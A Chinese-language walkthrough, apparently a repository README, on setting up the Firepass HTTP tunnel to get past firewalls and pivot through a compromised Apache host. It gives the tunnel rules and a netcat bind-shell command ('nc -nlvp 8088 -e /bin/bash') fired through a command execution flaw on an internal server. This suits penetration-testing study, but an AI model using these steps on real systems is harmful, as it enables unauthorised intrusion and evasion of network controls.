

## 简介

Firepass - 一种隧道技术工具，通过它可以避开防火墙的规则约束，将数据流封装在合法的HTTP POST请求中。任何基于TCP/UDP协议的子协议可以通过它来穿越HTTP代理服务器对HTTP协议的严格审查。到目前为止，客户端和服务器端仅用PERL语言编写。服务器端作为一个CGI脚本运行在WEB服务器上。Firepass的主要特点是用户可以在外网使用几种方法安装服务器端脚本。用户无需在外网计算机上绑定任何端口。当服务端脚本被置于企业WEB服务器上，客户端脚本从外部网络和它通信时，Firepass也可适用于反弹作业。

## 版本

	apache-1.3.11 (仅在低版本测试通过)
	http://archive.apache.org/dist/httpd/apache_1.3.11.tar.gz
	
	perl
	This is perl 5, version 16, subversion 3 (v5.16.3) built for x86_64-linux-thread-multi
	（yum install perl*）

## 操作

1.配置文件找到cgi-bin目录，确保开启cgi-bin (默认开启) (find / -name httpd.conf)

2.上传fpserver.cgi到cgi-bin

3.创建两个文件夹inout和log到/var/tmp，并给予权限

	cd /var/tmp
	mkdir inout
	mkdir log
	chmod 777 inout log

4.用配置文件运行fpserver.cgi，确保fpcnf.cache已生成

	chmod +x fpserver.cgi
	./fpserver.cgi configure conf/fpserver.conf
	ls

5.修改客户端的fpclient.rules，设置隧道绑定端口

fpclient/conf/fpclient.conf 可以开启debug

	debug		yes

6.开启客户端

	perl fpclient.pl conf/fpclient.conf 10.10.40.63/cgi-bin/fpserver.cgi

7.访问本地8088端口，成功和10.10.40.62:8080建立隧道

## 网络拓扑

内网 10.10.40.62  仅对内网开放web 服务 开放 8080端口 ，不出网 (无法反弹shell)

内网 10.10.40.63  apache 服务 可以作为跳板机 在上面搭建http 代理隧道

内网攻击机 10.88.104.26

### 方式

先拿下 40.63 建立http 隧道，10.88.104.26 在本地映射端口，间接访问10.10.40.62的web。

渗透到内网后，发现web有个命令执行漏洞，因为攻击机在内网，所以使用nc正向拿shell。

fpclient.rules

	8088	tcp	10.10.40.62	8080	tcp
	8081	tcp	10.10.40.62	8088	tcp  # 用于nc
	8082	udp	10.10.40.62	8080	tcp  # doesn't work

40.62 web(存在任意命令执行漏洞) 执行 

	nc -nlvp 8088 -e /bin/bash

本地执行：

	nc64.exe -nvv 127.0.0.1 8081

拿到shell：

## reference

[firepass-1.1.2a.tar](https://www.ymcn.org/d-1Rh5.html)

## 后记

正向shell和反向shell区别：

上面是举例正向tcp shell，例如正向ssh shell，攻击者主动连接受害端，受害端的输入输出转到控制端。

反弹shell是被动控制，正向shell是主动控制，反弹shell更稳定。

一般地，在内网，能出网机器，反弹shell，不能出网，跳板机正向shell。

